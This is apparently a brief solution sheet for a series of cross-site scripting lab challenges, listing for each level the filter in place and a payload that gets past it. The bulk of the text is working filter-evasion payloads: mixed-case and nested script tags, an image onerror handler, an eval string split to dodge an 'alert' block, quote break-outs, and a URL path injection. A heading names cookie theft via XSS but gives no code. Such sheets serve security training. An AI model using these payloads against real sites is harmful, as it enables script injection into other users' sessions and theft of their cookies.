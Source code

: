 This exercise is simpel Cross-Site Scripting challange

    <script>alert(1)</script>

## XSS 02

    <sCript>alert(1)</sCRIpt> 
    
## XSS 03

Script is block so use the paylods

    <scr<script>ipt>alert(1)</scr</script>ipt>


## XSS 04

completely block the word script 

    <img src='zzzz' onerror='alert(1)' />

## XSS 05 

block alert word so modify and bypass

    <script>eval("al"%2b"ert(1)")</script>

## XSS 06

Here, reflect var $a= "asifkhan"; so bracke the "" 

    </script><script>alert(1)</script>

## XSS 07

Reflect 'asifkha' single coten so breck the single ''

    ';alert(1);'


## XSS 08

Redirect Urls 

    /index.php/asif"><script>alert(1)</script>< 


## XSS 10

Find Cookies in use xss 

## XSS SVG     
